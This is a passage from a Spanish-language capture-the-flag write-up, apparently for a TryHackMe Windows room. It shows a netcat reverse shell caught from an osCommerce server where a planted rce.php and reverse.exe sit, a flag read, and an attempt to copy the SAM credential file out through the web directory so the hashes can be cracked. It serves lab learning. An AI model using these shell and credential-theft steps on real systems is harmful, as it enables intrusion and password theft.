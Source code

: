 Nos ponemos en escucha en nuesto equipo y ejecutamos ls reverse shell.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/script]
    └─# nc -lnvp 1988                                                                 
    listening on [any] 1988 ...
    connect to [10.8.64.232] from (UNKNOWN) [10.10.111.154] 49222
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 14AF-C52C
    
     Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes
    
    07/13/2023  03:47 PM    <DIR>          .
    07/13/2023  03:47 PM    <DIR>          ..
    04/11/2019  10:52 PM               447 application.php
    07/13/2023  03:48 PM             1,118 configure.php
    04/11/2019  10:52 PM    <DIR>          functions
    07/13/2023  03:46 PM                34 rce.php
    07/13/2023  03:47 PM            73,802 reverse.exe
                   4 File(s)         75,401 bytes
                   3 Dir(s)  19,505,434,624 bytes free

![image](https://github.com/Esevka/CTF/assets/139042999/0433127a-d92d-4099-9385-b3684d1fdc77)

## Flags

root.txt

    c:\Users\Administrator\Desktop>type root.txt.txt
    type root.txt.txt
    THM{flag}

"Lab" user NTLM hash decrypted  

Enlace donde explica bastante bien que es LM y NTLM como conseguir los hash para posteriormente crakearlos.    
https://c43s4rs.blogspot.com/2017/03/cracking-windows-passwords.html

Buscamos los dos ficheros que necesitamos(SAM y SYSTEM) que se encuentran en la ruta "c:\Windows\system32\config" y nos lo descargamos a nuestra maquina atacante desde el directorio /includes.
    
Como vemos no lo podemos copiar y es por lo siguiente.

        c:\Windows\System32\config>copy SAM C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\SAM
        copy SAM C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\SAM
        The process cannot access the file because it is being used by another process.
        0 file(s) copied.

Can you copy a SAM file?
The file is stored on your system drive at C:\WINDOWS\system32\config. However, it is not accessible (it cannot be moved nor copied) from within the Windows OS since Windows keeps an exclusive lock on the SAM file and that lock will not be released until the computer has been shut down.
